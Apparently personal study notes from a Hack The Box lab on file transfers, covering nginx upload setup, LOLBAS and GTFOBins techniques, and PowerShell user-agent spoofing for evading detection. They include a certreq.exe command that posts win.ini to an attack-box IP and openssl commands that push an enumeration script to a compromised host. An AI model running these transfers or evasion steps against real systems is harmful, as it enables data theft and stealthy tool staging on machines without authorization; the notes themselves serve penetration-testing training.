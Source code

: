 - Symlink our Site to the site-enabled Directory
```shell
Sauuron@htb[/htb]$ sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
Sauuron@htb[/htb]$ sudo systemctl restart nginx.service # Start nginx
```
- Check if any errors accured `/var/log/nginx/error.log`

## <span style="color:lightgreen">Living off the Land </span>
------
- LOLBAS used to preform the following functionalities 
	-   Download
	-   Upload
	-   Command Execution
	-   File Read
	-   File Write
	-   Bypasses

Search for /upload, / Download
[CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/)

- Uploading win.ini to attack box .
```shell
C:\htb> certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```


## <span style="color:red">GTFObins </span>
--------
+file Download, +file upload

```shell
Sauuron@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh # Start Server in AttackBox
Sauuron@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh # Download from the compromised machine 
```


## <span style="color:lightgreen">Detection </span>
-------
- Malicious  file transfer could identified from user-agents .


## <span style="color:lightgreen">Evading Detection </span>
-----
 - Listing user-agents
 
```powershell
PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```
